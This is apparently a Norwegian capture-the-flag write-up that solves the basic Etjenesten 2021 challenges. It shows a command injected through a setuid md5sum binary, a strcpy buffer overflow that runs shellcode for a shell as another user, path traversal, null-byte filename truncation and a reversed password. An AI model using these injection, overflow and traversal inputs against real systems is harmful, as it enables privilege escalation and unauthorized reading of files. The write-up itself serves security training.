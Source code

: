```yaml
---
title: Etjenesten21 - Grunnleggende
date: 2022-01-17 12:00:00 +0100
categories: [Etjenesten, Etjenesten Jul 21]
tags: [ctf, etjenesten, suid, rev, pwn, python, "2021"]
img_path: /assets/img/etjenesten21/
---
```

# 1.1_scoreboard
Flagget nås ved `cat FLAGG`.

# 1.2_setuid
Flaggfilen eier vi ikke, men vi har en cat-kommando med setuid bit til den brukeren som eier filen. `./cat FLAGG`

# 1.3_injection
Binaryen *md5sum* har et setuid-bit satt for eieren av FLAGG. Vi kan kjøre `./md5sum FLAGG; cat FLAGG` for å få programmet til å printe flagget.

# 1.4_overflow
Vi finner ut ved å se på kildekoden at binaryen bruker *strcpy()*, som lar oss overflowe bufferet som lagrer inputen vår. Vi kan også se at variabelen *above* må ha verdien "ABCDEFGH". Hvis *above* er satt korrekt til koden hoppe til `prep_shellcode` siden det er dit `shellcode_ptr` peker. Koden i SHC-enviroment variabelen blir tilslutt i denne funksjonen returnert til, osm gir oss shell som `basic4` brukeren.
```shell
$ export SHC=$(cat sample_shellcode)
$ ./overflow "AA$(echo $SHC)ABCDEFGHaaaaaaaaaaaaaaaaaaaaaaaa000000"
```
{: .nolineno }

# 1.5_nettverk
Flagget kommer etter man har kommunisert med en server.
```python
import socket
import struct
import select

TCP_IP = "127.0.0.1"
TCP_PORT = 10015

def main():
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn.connect((TCP_IP, TCP_PORT))
    print(conn.recv(4096).decode("utf-8"))

    a = []
    for i in range(10):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((TCP_IP, TCP_PORT))
        a.append(s)
    print(conn.recv(4096).decode("utf-8"))

    sum = 0
    for b in range(len(a)):
        data = a[b].recv(4096)
        value = struct.unpack('>I',data)
        sum += value[0]

    conn.send(bytearray(struct.pack('>I', sum)))
    print(conn.recv(4096).decode("utf-8"))
    list = []
    while True:
        try:
            ready,_,_ = select.select(a, [], [], 10.0)
            for sock in ready:
                tpl = sock.recv(4096).decode("utf-8")
                list.append(tpl[0])
        except:
            break
    print("".join(list))

if __name__ == "__main__":
    main()
```

# 1.6_reversing
Ved å reversere filen *check_password* kan man se at:
- Passordet må være 32 bytes langt
- At de første 19 bokstavene er *Reverse_engineering*
- De neste bokstavene er *_er_* (hex tall gjort om til ascii)
- Slutter med bokstavene *morsomt__*
Strengen blir til slutt `Reverse_engineering_er_morsomt__`

Med Ghidra ser *check_password* slik ut:

![reversing](6_reversing.png)

# 1.7_path_traversal
Vi har et binary som leser filer i et directory som heter *bok*. Vi kan bruke path-traversal til å hoppe tilbake ett directory for å lese FLAGG-filen.
`./les_bok ../FLAGG`

# 1.8_bonusflagg
Det er et bonus flagg også. Vi kan se i c-koden til *les_bok* at det legges til en *.txt* på teksten vi sender som argument (fila vi vil lese). Vi kan terminere stringen før *.txt* blir lagt til med en url-enkodet null-byte, og lese flagget på samme måte som forrige.
`./les_bok ../BONUS_FLAGG%00`
